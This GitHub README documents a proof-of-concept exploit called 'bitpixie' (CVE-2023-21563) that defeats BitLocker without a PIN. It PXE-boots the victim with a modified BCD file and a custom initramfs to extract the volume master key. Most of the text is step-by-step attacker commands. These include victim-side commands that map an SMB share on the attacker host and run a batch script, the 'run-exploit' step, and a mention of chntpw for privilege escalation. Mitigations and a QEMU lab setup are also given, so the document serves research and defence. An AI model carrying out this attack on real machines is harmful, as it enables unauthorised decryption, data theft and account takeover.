



# bitpixie Proof of Concept

## General concept of the attack
The Bitpixie bug was originally discovered by [Rairii](https://github.com/Wack0) and assigned CVE-2023-21563.
The first public demonstration of the full attack was performed by th0mas at 38c3: ["Windows BitLocker: Screwed without a Screwdriver"](https://media.ccc.de/v/38c3-windows-bitlocker-screwed-without-a-screwdriver).
Large parts of this repository are based on his work, that he also published as an article: ["Windows BitLocker -- Screwed without a Screwdriver"](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/) This article also explains potential mitigations.

[Marc André Tanner](https://github.com/martanne/bitpixie) also implemented the bitpixie exploit, you might want to check out his repository!

## Prerequisites
In order to carry out this attack, the encrypted computer must meet certain requirements.
- It must use BitLocker without pre-boot authentication.
- It must be able to boot in PXE mode. Ideally, the PXE boot option is not disabled in the bios. On some systems, this attack may work even if PXE boot is disabled, as PXE boot can be enabled by connecting an external network card.
- The PCR Validation must not include `4`. Check with `manage-bde -protectors -get c:` This is default behaviour.

### Software requirements for the attacker machine
The following packages have to be installed on the attacker machine:
- dnsmasq
- impacket-smbserver
- (hivexregedit)

For debian based systems:
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

> [!note]
> The repository with a precompiled alpine initramfs can be found in the releases section.

## How to perform the attack
The attack consists of two separate steps.
First, a modified BCD configuration file must be created specifically for the victim.
The next step is to boot the target via PXE using the modified BCD file, so that the VMK can be extracted from memory.

The TFTP server can be started with the script `start-server.sh`:
```
Starting the SMB server for exchanging the BCD file:
$ ./start-server.sh smb <interface>

Starting the TFTP and DHCP server for PXE booting:
$ ./start-server.sh pxe <interface>
```

To boot into the linux system through PXE-boot, press Restart while holding down the Shift key.
This will reboot the machine into Advanced Boot Options.

### Extracting the BCD file
The BCD file can be exported using `bcdedit` on the victims machine.
If you are already local Administrator you can directly extract and modify the BCD file.

Otherwise you can open a cmd.exe from within the Advanced Boot Options by clicking *Troubleshoot -> Advanced Option -> Command line (-> Skip this drive)* and enter the following commands.

```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```

The modified BCD file will be directly moved to the attacker machine so you can directly start performing the actual bitpixie attack.



### Breaking BitLocker
Start the TFTP server in exploit mode: `./start-server.sh exploit <interface>`.

In the Advanced Boot Options click on `Use a device` and select IPv4 PXE Boot.
The PXE boot process should start and finally drop into the Alpine initramfs.

Log in as root and perform the bitpixie exploit on the victim machine:
```
initrd:~# run-exploit /dev/sda3
```
The BitLocker partition should now be mounted at /root/mnt.
If it did not work, reboot and try it again. Sometimes the VMK is not detected / overwritten.

> [!note]
> The alpine initramfs also has [chntpw](https://pkgs.alpinelinux.org/package/edge/community/x86_64/chntpw) installed for easy privilege escalation!

Don't forget to unmount the file system after performing your changes: `umount /root/mnt`!




## Mitigations that work
- Use BitLocker with Pre Boot Authentication (TPM+PIN) (Preferred way, since it also prevents a bunch of other attacks against BitLocker.)
- Apply patch [KB5025885](https://support.microsoft.com/en-us/topic/how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) as described in the Microsoft guideline.
- Disable UEFI network stack to completely disable PXE (If none of the above is possible)


## How to set up a test environment
### Setting up QEMU
This exploit can be tested using QEMU.

I installed Windows 11 ([Tiny 11](https://github.com/ntdevlabs/tiny11builder)) on a newly created disk, installed all security patches and activated BitLocker.
Before creating the virtual machine, I had to edit the loader and change it to `/usr/share/OVMF/OVMF_CODE_4M.ms.fd` as shown below.



After enabling BitLocker, change the model type of the network interface to `virtio` and set the ROM to "no" (see [this bug](https://bugs.launchpad.net/maas/+bug/1789319)).
The XML of the network interface should look lke this:
```
<interface type="network">
  <model type="virtio"/>
  <rom enabled="no"/>
  [...]
</interface>
```

### Building the initrd
The complete `bitpixie-initramfs,gz` can be built using the script `./build
[-d|--debug]`. If the `--debug` flag is used the temporary rootfs directory
will be not deleted in order to manually examinate it via e.g. `sudo
[chroot|arch-chroot] /path/to/temp/initramfs sh`. The final gzipped initramfs
is automatically transfered to the `pxe-server/` directory.

The initramfs can be tested locally on the terminal via QEMU:

```
# Install qemu-system-x86_64 (minimal configuration)
# $ apt install qemu-system-x86
# Note: For more information see e.g. https://wiki.ubuntuusers.de/QEMU/
qemu-system-x86_64 \
  -m 1G -enable-kvm  \
  -kernel pxe-server/linux \
  -initrd pxe-server/bitpixie-initramfs.gz \
  -append "console=ttyS0" \
  -nographic
```

If a simple QEMU ethernet connection is required, the following flags can be
added:

```
# Extend QEMU with network capacity
# For more information see:
#   https://wiki.gentoo.org/wiki/QEMU/Options#Networking
#   https://wiki.archlinux.org/title/QEMU#Networking
#   https://wiki.qemu.org/Documentation/Networking
#
qemu-system-x86_64 \
  ... \
  -netdev user,id=net0 -device virtio-net-pci,netdev=net0
```

> [!NOTE]  
> If a specific functionality is missing then this could be due to a not loaded
> driver. All loaded drivers can be displayed with `lsmod` and loaded with
> `modprobe DRIVER`.
> To brutally load all modules (and probably trigger kernel crashes) the
> following command can be used:
> ```
>   $ find /lib/modules/5.14.0-1-amd64/ -name '*.ko' -exec sh -c 'modprobe $(basename {} | cut -d'.' -f1)' sh {} \;
> ```

## Alternative Method of obtaining the BCD (not recommended)
Boot the victim system into the initramfs using PXE boot: `./start-server.sh get-bcd <interface>`
On the victim machine you can identify the drive containing the Windows installation (often /dev/sda).

On the attacker machine execute the BCD extractor script:
```
$ ./grab-bcd.sh /dev/sda
[+] Info: Grabbing disk and partition GUIDs via SSH...
[...]
[+] Info: Created modified BCD file: pxe-server/Boot/BCD
```
This script obtains the disk and partition GUID from the victim computer and creates a registry patch file.
Afterwards the BCD-file gets patched and copied to pxe-server/Boot/BCD.
> [!note]
> The template file file needs to be served as `Boot\BCD` via PXE.

Now you are ready to perform the actual attack!
Reboot the victim system into the startup settings again.
